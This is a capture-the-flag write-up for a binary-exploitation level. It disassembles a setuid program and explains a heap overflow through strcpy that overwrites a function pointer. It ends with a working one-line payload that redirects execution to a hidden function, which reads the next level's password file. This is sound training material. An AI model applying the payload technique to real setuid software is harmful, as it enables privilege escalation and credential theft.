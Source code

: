 # Level6

## Solution

* There is one file in our home, ```level6```, belonging to ```level7``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* Here is the disassembled ```main``` function:
```asm
0x0804847c <+0>:	push   ebp
0x0804847d <+1>:	mov    ebp,esp
0x0804847f <+3>:	and    esp,0xfffffff0
0x08048482 <+6>:	sub    esp,0x20
0x08048485 <+9>:	mov    DWORD PTR [esp],0x40
0x0804848c <+16>:	call   0x8048350 <malloc@plt>
0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax
0x08048495 <+25>:	mov    DWORD PTR [esp],0x4
0x0804849c <+32>:	call   0x8048350 <malloc@plt>
0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax
0x080484a5 <+41>:	mov    edx,0x8048468
0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]
0x080484ae <+50>:	mov    DWORD PTR [eax],edx
0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]
0x080484b3 <+55>:	add    eax,0x4
0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]
0x080484b8 <+60>:	mov    edx,eax
0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]
0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx
0x080484c2 <+70>:	mov    DWORD PTR [esp],eax
0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]
0x080484ce <+82>:	mov    eax,DWORD PTR [eax]
0x080484d0 <+84>:	call   eax
0x080484d2 <+86>:	leave
0x080484d3 <+87>:	ret
```

* Several intersting information about it:

	* ```main``` makes two calls to ```malloc```, to allocate respectively ```0x40``` and ```0x4``` bytes.
	* at offsets ```41``` and ```47```, it stores ```0x8048468``` adresss that happens to be ```m``` function in the ```0x4``` bytes allocation.
	* at offset ```73```, it copies the content of ```argv[1]``` (obtained between offsets ```52``` and ```58```) into the ```0x40``` bytes.
	* at offset ```84```, it calls the function which address is contained in the ```0x4``` bytes allocation.

* ```m``` function only outputs ```Nope```

* a third function, ```n```, never called in the program but that we can discover with ```objdump -d level5```, launches ```system("/bin/cat /home/user/level7/.pass")```


* What we did with all of this:

	* as the two allocated zone are almost contiguous in memory, we decided to change the content of the ```0x4``` bytes area (the address of the ```m``` function), and replace it by the address of ```n``` function.
	* as what we write in argument of the program will be finally copied at the ```0x40``` bytes allocation address, we launched the following command:
	```sh
	./level6 `python -c "print('A' * 0x48 + '54840408'.decode('hex'))"`
	```
	* ```0x48``` is the gap between beginning of the ```0x40``` bytes and ```0x4``` bytes allocations
	* ```54840408``` is the littlen endian written address of function ```n```
	* this command finally outputs ```level7``` ```.pass``` file
